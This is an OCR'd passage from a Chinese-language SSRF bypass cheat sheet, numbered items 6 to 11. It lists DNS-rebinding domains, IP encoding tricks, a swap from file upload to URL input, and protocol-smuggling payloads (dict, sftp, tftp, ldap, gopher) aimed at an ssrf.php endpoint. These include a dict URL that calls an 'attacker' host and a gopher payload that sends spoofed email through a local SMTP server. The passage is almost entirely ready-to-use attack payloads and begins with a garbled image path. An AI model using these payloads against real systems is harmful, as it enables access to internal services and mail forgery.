 ```
原理是DNS解析

http://127.0.0.1.xip.io/

http://www.owasp.org.127.0.0.1.xip.io/

6.利用DNS解析

在域名上设置A记录，指向127.0.0.1

7.利用上传

修改"type=file"为"type=url"

比如：上传图片处修改上传，将图片文件修改为URL，即可能触发SSRF

8.利用句号

127。0。0。1=>127.0.0.1

9.进行进制转换

可以是十六进制，八进制等。
115.239.210.26 >>> 16373751032
首先把这四段数字给分别转成16进制，结果：73 ef d2 1a
然后把 73efd21a 这十六进制一起转换成8进制
记得访问的时候加0表示使用八进制(可以是一个0也可以是多个0 跟XSS中多加几个0来绕过过滤一样)，十六进制加0x

10.利用特殊地址

http://0/

11.利用协议

Dict://

dict://@:/d:

ssrf.php?url=dict://attacker:11111/

SFTP://

ssrf.php?url=sftp://example.com:11111/

TFTP://

ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET

LDAP://

ssrf.php?url=ldap://localhost:11211/%0astats%0aquit

Gopher://

ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```
